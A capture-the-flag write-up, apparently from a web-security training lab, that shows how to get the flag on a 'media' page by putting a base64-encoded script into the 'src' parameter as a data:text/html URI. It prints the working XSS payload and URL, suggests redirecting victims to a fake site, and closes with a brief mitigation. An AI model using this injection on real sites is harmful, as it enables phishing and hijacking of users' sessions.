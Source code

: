 # MEDIA REQUEST

## The flag

```
THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## How to find it ?

On the page http://{IP_ADDRESS}/

The NSA image (the one with headphone) leads to 
http://{IP_ADDRESS}/?page=media&src=nsa

You can change nsa to base64 script

"<script>alert("wtf");</script>" -> "PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+"
Don't forget to add "data:text/html;base64," at the beginning

http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+

## How to use it ?

Inject any script ou like and, for exemple redirect to a fake site

## How to avoid it ?

Check type of the response and do not accept text/html by default